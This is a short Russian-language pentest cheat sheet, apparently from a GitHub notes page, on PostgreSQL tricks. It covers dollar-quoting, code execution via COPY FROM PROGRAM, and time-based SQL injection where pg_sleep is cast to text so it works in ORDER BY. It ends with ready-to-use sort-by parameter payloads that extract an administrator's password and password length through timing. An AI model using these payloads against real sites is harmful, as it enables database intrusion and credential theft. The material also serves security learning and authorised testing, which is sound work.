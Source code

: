 # postgres

Выведет quer, потому что $\[somestring]$ - это вроде кавычки

```
SELECT $test$quer$test$
```

### Code Execution

Если есть права суперпользователя в базе, то можно исполнять код с помощью функций СУБД: `COPY TO` и `FROM PROGRAM`.

## Time Based SQLi and VOID-type

Есть одна маленькая проблема с эксплуатацией Time-Based SQLi. Функция pg\_sleep возвращает VOID, а этот тип не применим в некоторых запросах, например, в Order By:

```sql
SELECT * 
FROM pg_user 
ORDER BY "usename",
  (
    SELECT 
      CASE 
        WHEN COUNT((SELECT usename FROM pg_user))<>1 
        THEN pg_sleep(10) 
        ELSE '' 
      END
  );
```

этот запрос вернет ошибку:

```
could not identify an ordering operator for type void
```

Чтобы использовать pg\_sleep в order by запросах, надо конвертнуть результат в text:

```sql
SELECT * 
FROM pg_user 
ORDER BY "usename",
  (
    SELECT 
      CASE 
        WHEN COUNT((SELECT usename FROM pg_user))<>1 
        THEN pg_sleep(10) 
        ELSE '' 
      END
  )::text;
```

### ORDER BY injection

URL: [https://example.com/filtered\_search?SearchTerm=test\&sort-by=AUTHOR\&writer=](https://example.com/filtered\_search?SearchTerm=test\&sort-by=AUTHOR\&writer=)

Time-based payload для sort-by для извлечения значения поля password:

```
AUTHOR, (CASE WHEN (SELECT '1'='1' FROM users WHERE username = 'administrator' AND password LIKE 'j%') THEN pg_sleep(10)::text ELSE AUTHOR END)
```

Time-based payload для sort-by для извлечения длины поля password:

```
(SELECT CASE WHEN COUNT((SELECT (SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username = 'administrator') = 25 THEN pg_sleep(20) ELSE '' END)))<>0 THEN true ELSE false END)
```
